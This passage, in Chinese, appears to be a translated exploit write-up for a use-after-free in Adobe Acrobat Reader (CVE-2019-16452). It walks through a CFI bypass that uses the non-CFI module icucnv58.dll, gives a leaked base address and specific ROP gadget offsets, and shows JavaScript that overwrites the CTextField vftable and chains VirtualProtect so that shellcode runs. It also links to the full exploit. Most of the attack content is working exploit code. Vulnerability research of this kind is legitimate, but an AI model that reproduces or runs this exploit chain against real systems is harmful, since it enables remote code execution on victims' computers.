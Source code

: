 然后，我们可以覆盖CTextField对象的vftable虚表来控制PC。



## 绕过CFI

启用CFI后，我们无法使用ROP。我编写了一个小脚本来查找任何未启用CFI的模块，它会在我的漏洞利用程序运行时被加载。我找到了icucnv58.dll。

```
import pefile
import os

for root, subdirs, files in os.walk(r'C:Program Files (x86)AdobeAcrobat Reader DCReader'):
    for file in files:
        if file.endswith('.dll') or file.endswith('.exe') or file.endswith('.api'):
            fpath = os.path.join(root, file)
            try:
                pe = pefile.PE(fpath, fast_load=1)
            except Exception as e:
                print (e)
                print ('error', file)
            if (pe.OPTIONAL_HEADER.DllCharacteristics &amp; 0x4000) == 0:
                print (file)
```

该icucnv58.dll基址可以通过Acroform.API被泄露出来，在icucnv58.dll内部有足够的gadgets来执行stack pivot和ROP。

```
//a86f5089230164fb6359374e70fe1739 - md5sum of `icucnv58.dll`
r = myread(ACROFORM_BASE+0xBF2E2C)
ICU_BASE = myread(r+16)
console.println('ICU_BASE: ' + ICU_BASE.toString(16))
assert(ICU_BASE&gt;0)

g1 = ICU_BASE + 0x919d4 + 0x1000//mov esp, ebx ; pop ebx ; ret
g2 = ICU_BASE + 0x73e44 + 0x1000//in al, 0 ; add byte ptr [eax], al ; add esp, 0x10 ; ret
g3 = ICU_BASE + 0x37e50 + 0x1000//pop esp;ret
```



## 最后一步

最后，我们拥有实现完整代码执行所需的一切。使用任意写入原语将shellcode写入内存，然后调用VirtualProtect以启用执行权限。如果你有兴趣，可以在[这里](https://github.com/star-sg/CVE/tree/master/CVE-2019-16452)找到完整的利用代码。结果，我的UAF漏洞利用程序的可靠性可以达到约80％的成功率。这个漏洞利用平均需要3-5秒，如果需要多次重试，则利用可能需要更多时间。

```
/* copy CTextField vftable */
for(var i=0; i&lt;32; i++) mywrite(GUESS+64+i*4, myread(vftable+i*4))
mywrite(GUESS+64+5*4, g1)  //edit one pointer in vftable

// // /* 1st rop chain */
mywrite(MARK_ADDR+4, g3)
mywrite(MARK_ADDR+8, GUESS+0xbc)

// // /* 2nd rop chain */
rop = [
myread(ESCRIPT_BASE + 0x01B0058), //VirtualProtect
GUESS+0x120, //return address
GUESS+0x120, //buffer
0x1000, //sz
0x40, //new protect
GUESS-0x20//old protect
]
for(var i=0; i&lt;rop.length;i++) mywrite(GUESS+0xbc+4*i, rop[i])

//shellcode
```